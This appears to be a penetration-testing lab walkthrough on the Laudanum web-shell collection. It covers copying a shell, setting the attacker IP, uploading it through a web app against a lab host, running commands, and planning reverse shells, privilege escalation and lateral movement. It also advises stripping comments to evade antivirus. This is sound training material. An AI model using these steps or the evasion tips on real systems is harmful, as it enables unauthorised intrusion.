 
## 1. What is Laudanum

**Laudanum** is a collection of **pre-built, injectable web shells** designed for multiple web technologies.  
It supports:

- **ASP**
    
- **ASPX**
    
- **PHP**
    
- **JSP**
    

**Use Cases:**

- Uploading reverse shells
    
- Executing OS commands from a browser
    
- Achieving Remote Code Execution (RCE)
    

**Preinstalled On:**

- **Kali Linux**
    
- **Parrot OS**
    

---

## 2. Location

On Kali or Parrot OS:

```bash
/usr/share/laudanum
```

---

## 3. Usage Considerations

- Most shells **work out-of-the-box**.
    
- Some require:
    
    - Editing to set the attacker’s **IP address** (especially for reverse shells).
        
    - Removing ASCII art or comments to reduce antivirus detection.
        
- Always **read the file comments** before use to understand its behavior.
    

---

## 4. Steps to Use Laudanum

### **Step 1: Add Target Entry to `/etc/hosts`**

Edit `/etc/hosts` to map the target hostname:

```bash
sudo nano /etc/hosts
```

Example entry:

```
<target-ip> status.inlanefreight.local
```

---

### **Step 2: Copy and Modify the Web Shell**

Choose a web shell and copy it to your working directory:

```bash
cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```

Edit the shell file (for example, at line 59) and set your attacker's IP:

```csharp
string[] allowedIps = { "10.10.14.12" };
```

Optional: Remove comments or ASCII art to avoid detection by security tools.

---

### **Step 3: Upload the Shell**

Use the web application’s upload functionality:

- Navigate to the **upload section** of the site.
    
- Upload your edited `demo.aspx` shell.
    

Successful uploads will typically display the upload path:

```
\\files\demo.aspx
```

---

### **Step 4: Access the Web Shell**

Use your browser to navigate to the uploaded shell:

```
http://status.inlanefreight.local/files/demo.aspx
```

**Notes:**

- Double backslashes (`\\`) in paths are converted to slashes (`/`) in browsers.
    
- Some servers:
    
    - Keep the original filename.
        
    - Rename files (obfuscate).
        
    - Restrict direct access.
        

---

### **Step 5: Use the Shell**

Laudanum provides a simple **web form** interface to execute commands.

**Example:**

```
systeminfo
```

Click **Submit Query** to execute the command and view the output.

---

## 5. Summary of Features

- Built-in HTTP interface for command execution
    
- Preconfigured for common testing scenarios
    
- Works with minimal configuration
    
- Can be detected by antivirus or EDR → **strip signatures for stealth**
    

---

## 6. Next Steps

Once the shell is operational:

1. Perform basic reconnaissance:
    
    - `whoami`
        
    - `ipconfig`
        
    - `systeminfo`
        
2. Upload a reverse shell payload for persistent access.
    
3. Enumerate running services and local users.
    
4. Prepare for privilege escalation or lateral movement.
    

---

Would you like me to create a **quick-reference checklist** for setting up and using Laudanum shells during engagements?
